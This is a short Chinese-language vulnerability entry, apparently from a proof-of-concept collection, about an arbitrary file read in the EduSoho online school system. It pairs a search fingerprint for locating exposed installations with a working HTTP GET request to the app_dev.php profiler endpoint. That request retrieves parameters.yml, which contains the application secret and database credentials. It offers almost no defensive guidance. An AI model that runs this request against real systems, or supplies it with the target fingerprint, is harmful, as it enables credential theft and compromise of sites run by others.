 # EduSoho 教培系统 app_dev.php 任意读取漏洞

# EduSoho 教培系统 app_dev.php 任意读取漏洞

## 漏洞描述

EduSoho 教培系统是由杭州阔知网络科技研发的开源网校系统。

通过向 /app_dev.php/_profiler/open 端点发送可以读取到 app/config/parameters.yml 文件的内容，拿到该文件中保存的 secret 值以及数据库账号密码等敏感信息。

## 漏洞影响

EduSoho 教培系统

## 网络测绘

```
"Powered By EduSoho"
```

## 漏洞复现

登录页面

![image-20231115095857573](images/image-20231115095857573.png)

指纹

![image-20231115095301932](images/image-20231115095301932.png)

poc

```
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![image-20231115095838331](images/image-20231115095838331.png)


